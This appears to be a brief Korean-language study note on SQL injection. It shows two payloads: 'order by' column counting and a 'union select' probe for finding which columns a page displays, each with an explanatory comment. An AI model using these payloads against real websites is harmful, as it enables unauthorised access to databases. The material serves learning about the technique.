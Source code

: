 # shincheonji

order by: 어떤것으로 정렬 하겠다
```
aa' order by 1 #1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다.
```
